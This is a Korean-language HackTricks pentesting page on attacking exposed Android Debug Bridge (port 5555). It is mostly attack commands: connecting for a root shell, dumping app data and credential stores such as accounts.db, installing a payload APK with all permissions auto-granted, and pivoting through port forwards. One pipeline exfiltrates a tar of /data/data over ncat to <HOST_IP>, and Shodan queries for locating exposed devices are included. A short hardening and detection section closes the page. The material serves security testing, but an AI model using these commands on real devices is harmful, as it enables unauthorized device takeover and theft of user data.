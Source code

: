 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## 기본 정보

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb)는 Android 기반 장치 및 에뮬레이터와 통신하기 위한 명령줄 도구입니다. 일반적인 작업에는 패키지 설치, 디버깅 및 장치에서 대화형 Unix 셸을 얻는 것이 포함됩니다.

- 역사적 기본 TCP 포트: 5555 (클래식 "adb tcpip" 모드).
- 현대 무선 디버깅 (Android 11+)은 TLS 페어링 및 mDNS 서비스 검색을 사용합니다. 연결 포트는 동적이며 mDNS를 통해 발견됩니다; 5555가 아닐 수 있습니다. 페어링은 adb pair host:port 다음에 adb connect로 수행됩니다. 공격적 의미에 대한 주의 사항은 아래를 참조하십시오.

Example nmap fingerprint:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Connect

ADB가 노출되어 있고 접근 가능하다면, 빠르게 연결하고 열거해 보세요:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- 만약 장치가 ADB 인증을 강제하는 경우 (ro.adb.secure=1), 사전 인증(USB RSA 인증)이 필요하거나 Android 11+ 무선 디버깅 페어링을 사용해야 합니다(이는 장치에 표시된 일회성 코드가 필요합니다).
- 일부 벤더 이미지, 엔지니어링/사용자 디버그 빌드, 에뮬레이터, TV, STB 및 개발 키트는 인증 없이 adbd를 노출하거나 adbd가 루트로 실행됩니다. 이러한 경우, 일반적으로 셸 또는 루트 셸에 직접 접근하게 됩니다.

일반 ADB 명령 참조는 다음을 참조하십시오:


{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## 빠른 포스트 익스플로잇

셸에 접근한 후, 권한 및 SELinux 컨텍스트를 검증하십시오:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### 데이터 열거 및 캡처

- 서드파티 앱 및 경로 나열:
```bash
pm list packages -3
pm path <pkg>
```
- 루트 권한이 있는 경우 (adb root 또는 su 사용 가능), /data에 직접 접근할 수 있습니다. 그렇지 않으면 디버깅 가능한 앱에 대해 run-as를 사용하는 것이 좋습니다:
```bash
# 루트 없이, 디버깅 가능한 앱의 경우
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# 루트 권한이 있는 경우
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- 유용한 시스템 아티팩트 (루트 필요):
- /data/system/users/0/accounts.db 및 관련 AccountManager 데이터
- /data/misc/wifi/ (구버전의 네트워크 구성/키)
- /data/data/<pkg> 아래의 앱 전용 SQLite DB 및 shared_prefs

이를 사용하여 민감한 정보를 검색할 수 있습니다 (예: 앱 비밀). Chrome 데이터 고려 사항에 대한 노트는 [여기](https://github.com/carlospolop/hacktricks/issues/274)에서 참조하십시오.

### 코드 실행 및 페이로드 전달

- 런타임 권한 설치 및 자동 부여:
```bash
adb install -r -g payload.apk         # -g는 매니페스트에 선언된 모든 런타임 권한을 부여합니다
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- 활동/서비스/브로드캐스트를 직접 시작:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### 포트 포워딩 및 피벗팅

루트 없이도 adb는 로컬 포트를 장치 포트로, 또는 그 반대로 포워딩할 수 있습니다. 이는 장치에서 로컬로 바인딩된 서비스에 접근하거나 공격자 서비스를 장치에 노출하는 데 유용합니다.

- 호스트->장치 포워딩 (호스트에서 장치 로컬 서비스에 접근):
```bash
adb forward tcp:2222 tcp:22       # 장치에서 SSH가 실행되는 경우 (예: Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # 앱의 로컬 디버그 서버 노출
```
- 장치->호스트 역방향 (장치가 호스트의 서비스에 접근하도록 허용):
```bash
adb reverse tcp:1080 tcp:1080     # 장치 앱이 이제 127.0.0.1:1080으로 호스트:1080에 접근할 수 있습니다
```
- 소켓을 통한 파일 유출 (sdcard 쓰기 없음):
```bash
# 호스트에서: 수신 대기
ncat -lvp 9000 > dump.tar
# 장치에서: tar로 디렉토리 전송 (루트 또는 run-as 적용 가능)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## 무선 디버깅 (Android 11+)

현대 Android는 장치 측 페어링 및 mDNS 검색을 통해 TLS로 보호된 무선 디버깅을 구현합니다:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
노트
- 포트는 동적입니다; 5555를 가정하지 마십시오. mDNS 서비스 이름은 다음과 같습니다:
- _adb-tls-pairing._tcp (페어링)
- _adb-tls-connect._tcp (페어링된 연결)
- _adb._tcp (레거시/일반)
- mDNS가 필터링되면, 고전 USB 지원 활성화가 일부 빌드에서 여전히 작동할 수 있습니다: `adb tcpip 5555` 다음 `adb connect <ip>:5555` (재부팅 전까지).

공격적 의미: 장치 UI와 상호작용할 수 있다면 (예: 물리적 접근 또는 모바일 MDM 잘못 구성) 무선 디버깅을 활성화하고 페어링 코드를 볼 수 있습니다. 이 경우 케이블 없이 장기적으로 페어링된 ADB 채널을 설정할 수 있습니다. 일부 OEM은 페어링 없이 엔지니어링/개발 이미지에서 TCP를 통해 ADB를 노출합니다—항상 확인하십시오.

## 강화 / 탐지

수비자는 도달 가능한 adbd (TCP)가 중요한 위험이라고 가정해야 합니다.

- 필요하지 않을 때 ADB 및 무선 디버깅을 비활성화하십시오. 개발자 옵션에서 USB 디버깅 권한을 취소하십시오.
- 신뢰할 수 없는 세그먼트에서 수신 TCP/5555 및 mDNS 기반 ADB 검색을 차단하는 네트워크 정책을 보장하십시오.
- 귀하의 제어 하에 있는 장치에서:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCP 수신 비활성화 (또는 사용: adb usb)
stop adbd; start adbd             # 데몬 재시작
```
- 기업 네트워크에서 mDNS 레코드 `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp`를 모니터링하고 예상치 못한 5555 리스너에 대한 경고를 설정하십시오.
- 불안전한 빌드에 대한 인벤토리: `getprop ro.debuggable`, `ro.build.type`, 및 `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## 참조

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
